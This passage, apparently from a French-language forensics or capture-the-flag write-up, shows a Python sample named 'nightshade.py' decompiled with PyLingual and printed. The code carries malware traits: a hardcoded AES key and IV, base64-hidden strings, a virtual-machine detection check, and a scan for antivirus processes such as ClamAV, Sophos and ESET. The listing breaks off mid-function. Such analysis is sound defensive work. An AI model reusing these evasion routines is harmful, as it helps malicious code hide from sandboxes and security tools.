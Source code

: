 ![autopsy](images/autopsy.png)

Puis on le décompile à l'aide de https://pylingual.io/.

Voici son code décompilé : 

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: nightshade.py
# Bytecode version: 3.7.0 (3394)
# Source timestamp: 2025-03-24 15:04:51 UTC (1742828691)

import os, subprocess
import psutil
import base64
from Crypto.Cipher import AES
__k = bytes.fromhex('e8f93d68b1c2d4e9f7a36b5c8d0f1e2a')
__v = bytes.fromhex('1f2d3c4b5a69788766554433221100ff')
__d = '37e0f8f92c71f1c3f047f43c13725ef1'

def __b64d(s):
    return base64.b64decode(s.encode()).decode()

def __p(x):
    return x + bytes([16 - len(x) % 16]) * (16 - len(x) % 16)

def __u(x):
    return x[:-x[-1]]

def __x(h):
    c = AES.new(__k, AES.MODE_CBC, __v)
    return __u(c.decrypt(bytes.fromhex(h))).decode()

def __y(s):
    c = AES.new(__k, AES.MODE_CBC, __v)
    return c.encrypt(__p(s.encode())).hex()

def __chk_vm():
    try:
        z = open('/sys/class/dmi/id/product_name').read().strip().lower()
        for q in [b'VmlydHVhbEJveA==', b'S1ZN', b'UVFNVQ==', b'Qm9jaHM=']:
            if base64.b64decode(q).decode().lower() in z:
                print('ERR VM')
                return True
    except:
        pass
    return False

def __chk_av():
    targets = [b'Y2xhbWQ=', b'YXZnZA==', b'c29waG9z', b'RVNFVA==', b'cmtodW50ZXI=']
    try:
        for p in psutil.process_iter(attrs=['name']):
```